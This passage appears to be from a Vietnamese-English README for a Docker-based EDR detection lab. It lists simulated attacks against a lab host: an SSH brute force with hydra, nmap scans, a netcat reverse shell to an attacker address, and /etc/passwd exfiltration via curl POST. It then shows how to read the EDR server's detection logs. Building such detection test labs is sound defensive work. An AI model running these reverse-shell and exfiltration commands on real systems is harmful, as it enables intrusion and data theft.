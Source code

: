```bash
# Successful login
hydra -l testuser -p 123456 ssh://172.19.0.2 -t 1 -v
```

### 2. Network Reconnaissance  
```bash
# Port scanning
nmap -sS -p 1-1000 172.19.0.2
nmap -sV -p 22 172.19.0.2

# Service detection
nmap -sC -sV 172.19.0.2
```

### 3. Reverse Shell Attempts
```bash
# Setup listener trên attacker
nc -l -p 4444 &

# SSH vào target và thử reverse shell
sshpass -p '123456' ssh -o StrictHostKeyChecking=no testuser@172.19.0.2 \
  'bash -c "nc 172.19.0.4 4444 -e /bin/bash"'
```

### 4. Data Exfiltration
```bash
# Setup HTTP server trên attacker
python3 -m http.server 8888 &

# Exfiltrate data từ target
sshpass -p '123456' ssh -o StrictHostKeyChecking=no testuser@172.19.0.2 \
  'cat /etc/passwd | curl -X POST --data-binary @- http://172.19.0.4:8888/'
```

### 5. Privilege Escalation Attempts
```bash
# SSH vào target và thử sudo
sshpass -p '123456' ssh -o StrictHostKeyChecking=no testuser@172.19.0.2 \
  'whoami; id; sudo -l; cat /etc/passwd | head -5'
```

## 📊 Kiểm tra Detection Results

### 1. EDR Server Logs
```bash
# Xem detection logs real-time
docker logs -f deploy-edr-server-1

# Xem logs gần nhất
docker logs deploy-edr-server-1 --tail 20

# Tìm kiếm specific detections
docker logs deploy-edr-server-1 | findstr "DETECT"
```
